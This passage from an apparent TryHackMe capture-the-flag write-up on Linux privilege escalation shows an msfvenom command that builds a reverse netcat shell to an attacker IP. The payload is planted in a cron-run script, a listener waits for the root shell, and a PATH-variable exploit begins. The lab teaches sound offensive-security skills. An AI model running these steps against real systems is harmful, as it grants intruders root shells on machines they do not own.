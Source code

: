    ```console
   msfvenom -p cmd/unix/reverse_netcat lhost=10.18.78.136 lport=1337 -f raw
   ```

   ![Crontab Payload](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/commonlinuxprivesc/Common_Linux_Privesc_Crontab_Payload.png)

   Now we can add this line to the script on the target machine.

   ![Crontab Script](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/commonlinuxprivesc/Common_Linux_Privesc_Crontab_Script.png)

   Now we must set-up a netcat listener on our attackbox and we should receive a connection within five minutes.

   ![Crontab Shell](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/commonlinuxprivesc/Common_Linux_Privesc_Crontab_Shell.png)

### Exploiting PATH Variable

1. Going back to our local ssh session, not the netcat root session, you can close that now, let's exit out of root from our previous task by typing"exit". Then use"su"to swap to user5, with the password"password"

2. Let's go to user5's home directory, and run the file"script". What command do we think that it's executing?

   After navigating to the script and running it with `./script` we see a list of files and folders. This probably means it uses the `ls` command.

   ![Path Script](https://github.com/Kevinovitz/TryHackMe_Writeups/raw/main/commonlinuxprivesc/Common_Linux_Privesc_Path_Script.png)
